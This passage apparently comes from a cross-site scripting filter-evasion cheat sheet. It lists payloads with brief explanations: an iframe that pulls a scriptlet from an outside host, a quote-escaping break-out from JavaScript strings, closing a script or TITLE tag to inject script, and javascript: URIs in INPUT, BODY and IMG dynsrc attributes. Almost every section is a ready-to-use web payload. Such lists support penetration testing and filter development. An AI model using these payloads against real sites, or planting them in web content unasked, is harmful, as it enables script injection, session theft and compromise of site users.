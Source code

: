## Double Open Angle Brackets

Using an open angle bracket at the end of the vector instead of a close angle bracket causes different behavior in Netscape Gecko rendering. Without it, Firefox will work but Netscape won't:

```html
<iframe src=http://xss.rocks/scriptlet.html <`
```

## Escaping JavaScript Escapes

When the application is written to output some user information inside of a JavaScript like the following: `<SCRIPT>var a="$ENV{QUERY\_STRING}";</SCRIPT>` and you want to inject your own JavaScript into it but the server side application escapes certain quotes you can circumvent that by escaping their escape character. When this gets injected it will read `<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>` which ends up un-escaping the double quote and causing the Cross Site Scripting vector to fire. The XSS locator uses this method.:

```html
`\";alert('XSS');//`
```

An alternative, if correct JSON or Javascript escaping has been applied to the embedded data but not HTML encoding, is to finish the script block and start your own:

```html
</script><script>alert('XSS');</script>
```

## End Title Tag

This is a simple XSS vector that closes `<TITLE>` tags, which can encapsulate the malicious cross site scripting attack:

```html
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
```

## INPUT Image

```html
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
```

## BODY Image

```html
<BODY BACKGROUND="javascript:alert('XSS')">
```

## IMG Dynsrc

```html
<IMG DYNSRC="javascript:alert('XSS')">
```
